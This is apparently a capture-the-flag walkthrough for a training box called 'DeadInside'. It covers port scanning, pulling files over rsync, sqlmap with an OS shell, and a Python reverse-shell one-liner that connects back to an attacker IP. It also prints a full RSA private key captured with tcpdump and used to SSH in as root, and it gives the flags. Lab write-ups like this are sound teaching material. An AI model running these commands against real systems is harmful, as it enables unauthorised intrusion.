 # DeadInside

## Enumeration
```bash
└─$ nmap -A -p- -sC -T4 10.10.250.34 -oX nmap.out
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-29 11:10 BST
Nmap scan report for 10.10.250.34
Host is up (0.037s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:0f:0a:18:50:78:07:10:f2:32:d1:60:30:40:d4:be (RSA)
|   256 5c:00:37:df:b2:ba:4c:f2:3c:46:6e:a3:e9:44:90:37 (ECDSA)
|_  256 fe:bf:53:f1:d0:5a:7c:30:db:ac:c8:3c:79:64:47:c8 (ED25519)
80/tcp  open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
873/tcp open  rsync   (protocol version 31)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Exploitation

### I download all the files that I found

```bash
└─$ rsync -av --list-only rsync://10.10.250.34:873/
Conf All Confs

└─$ rsync -av --list-only rsync://10.10.250.34:873/Conf/
...
access.conf

└─$ rsync -av --list-only rsync://10.10.250.34:873/Conf/access.conf access.conf
cat access.conf 
```
### I've changed the contents of the webapp.ini file because on the website it says something like "keep the door closed" and in the file a door field is here with writing closed.
```python
webapp.ini

door = opened
```
### Exploit the sql database to got a shell as rick

```bash
sqlmap -u http://10.10.250.34/door/config.php --level 5 --risk 3 --batch -D db --os-shell --forms

> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.37.214",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

python3 -c 'import pty; pty.spawn("/bin/bash")'
```
### upload pentestMonkey in the box, reverseshell to get a shell as rick

## User FLAG

```cat /home/rick/user.txt``` : EPI{W3_r_73h_w4lk1n9_D34D}

## Privilege Escalation

### linpeas = tcpdump
```bash
tcpdump -i lo -w file.cap

cat file.cap :

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAtb/gJ/0hjWELlcYLzexponv3FWbz1r4g9w4htwEWqvbFfoxb
JKPi0xzn+gTEqi8I0uKW+gILfRG03gtv2RrMYPNK2exLuWqnb9ZPyLD3xETtollU
lR5DbWiEAtIFLOItdtXrP7hF0fi2Vc3H+4bFEhLPHzgwH068Xs5n+YviOFz4XOtW
DZOEA6XrpqcxPaMhksCcTPi9clvrioOyKEpnXTXQzWuma0pckclYvbh4vEwQp5n0
/rpgEMT7MRMT3CsDEfZOS2oAOfswc9WzDlbrQ7ghuHk2EMHrA/sI5M0N4GWeE12v
lld3CAKWp9MkB9g84qJdmt5QFk4tLYh08qaaeQIDAQABAoIBAHww5oysrXab73yi
XYKSnwQGTSn0tX3xYTkwEN2qAsFD6mO0qLr6uY2kXOc8xt27Uf44Ew42w37s0HhB
vGXPqAQ/etA6ZOwH8u26tb3fHw6gQvkCrYdPrKdgGYSL2jl3O7XOKvfZhOwbVQyA
lrxKtPLKo3kjvc5G0PS/edDNQwFbbjA0zf43GOFfW/ahOQu82iVfkDtrjmTnqB5/
O4pjmkNuTR9E6BStL5vZJoLK0W5lc9bgHa1TgyRzkK8iKKen+kohWrJUjQnK0f8z
/LTZuNwuOWZ60ckaQPJhAqdRbXOJ5gm0r9hStSN+ncKOYlLSdFz9Opskp4aDTGQa
zEzzjGECgYEA6VFeVzL2UcP+JCgtpBZHpRNUiCO7yjvfLFIeeDJKY1sKefLSz4mb
KiSFodWf1nsZydhRM25pXWfk17X7up/ocgs8gCkOQAiYM8AkzZ60egiehPD4Pv4h
cPJMSNEoq1cTlOJFmmPMk5dwj8kp12IkSgFNlLRd7vD9yVJbkC1MP20CgYEAx2sd
awpIu7T4P+ttFGQi+/nrNNTZ4fr9IrMK7VObuF9HG3YH3t1DkEOqk5zerYVVP9J5
bIbsSv9dBysWqe6Ftrtzrk5bhpRIy4E/etEoMGqzmMA1SZkI8P5E9AzN/F03C2xq
p9s2fexqdf5RpdGujpSJda0fZki01jDznHUjg70CgYEAmk0zxRtxB5ZE5wijVpdd
fnCQQRDQyuhZqegNOpSX2amF/ix2+sYYlgBdWC/9a00yOukSmp70k8936qjx9/R1
N6bythdw0yxb7C2wqUPCO8qje2wZ4R8UYqv7g1TAPsBxtM8IFRjXXOyUhqMVRtoj
AcZm1meKj9FVJeWPpIQwnukCgYB7UGN6o3tih3/TlvN23o07n8mwe8bYFOqfoHOr
Wj46/r/r3Ur0p4J2HUHH0gNo7cBPnQl08OIBZnPSUPTM1DBfVP8t1EqIp/1zylLE
0b22YuT4GjNZdYav76wX9isSWVoGeF5jugyyRZV3rXIzxbvZc0SlPg7ioycgJFkg
cNcrSQKBgB2vGOzFapRM2zfukNXmtHLrO/+U6yXwj+VuJtDO/lwdORCaQGNEobs4
U8NEWvUEM0vdvJCKwpFLK784YKug4LUhJlc1DYRYxF9Ct+er/mQKuFd/tiSvKoqz
gOFPkMMr6+LJjvzfFZqaGwHFuT0W44THPSRNfuWaoTqnF/7KhrWy
-----END RSA PRIVATE KEY-----

chmod 600 id_rsa
ssh -i id_rsa root@<IP>

cd /root
```
## Root FLAG

```cat root.txt``` : EPI{9R0w1N9_Up_12_93771n9_u53D_70_73H_W0rld}

### Write up to help me for the box
source : https://related.cupprs.com/metamorphosis/
